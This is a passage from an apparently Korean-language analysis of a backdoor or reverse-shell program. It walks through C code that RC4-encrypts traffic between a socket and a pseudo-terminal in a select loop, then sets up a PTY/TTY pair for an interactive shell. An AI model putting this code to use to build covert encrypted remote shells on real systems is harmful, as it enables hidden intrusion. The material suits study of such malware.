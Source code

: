 - 송신 시에는 데이터를 RC4로 암호화한 후 전송, 수신 시에는 암호화된 데이터를 복호화하여 터미널에 출력한다.

```c
int cwrite(int fd, void *buf, int count) {
    uchar*tmp = malloc(count);
    memcpy(tmp, buf, count);
    rc4(tmp, count, &crypt_ctx);
    int ret = write(fd, tmp, count);
    free(tmp);
    return ret;
}

int cread(int fd, void *buf, int count) {
    int i = read(fd, buf, count);
    if (i > 0)
        rc4(buf, i, &decrypt_ctx);
    return i;
}

// 위 코드와 동일한 while문
while (1) {
    // ...
    FD_ZERO(&fds);
    FD_SET(pty, &fds);
    FD_SET(sock, &fds);
    if (select((pty > sock) ? (pty+1) : (sock+1),
            &fds, NULL, NULL, NULL) < 0)
    {
            break;
    }
    if (FD_ISSET(pty, &fds)) {
            int count;
            count = read(pty, buf, BUF);
            if (count <= 0) break;
            if (cwrite(sock, buf, count) <= 0) break;
    }
    if (FD_ISSET(sock, &fds)) {
            int count;
            unsigned char *p, *d;
            d = (unsigned char *)buf;
            count = cread(sock, buf, BUF);
            if (count <= 0) break;
            // ...
    }
}
```

### 8. 의사 터미널(PTY) 생성 및 쉘 실행

- 대화형 TTY 쉘을 만들기 위해 의사 터미널을 생성한다.

```c
// PTY/TTY 쌍 생성
char pts_name[20];
pty = ptym_open(pts_name); // /dev/ptmx 오픈
tty = ptys_open(pty, pts_name); // 대응하는 /dev/pts/X 오픈
```
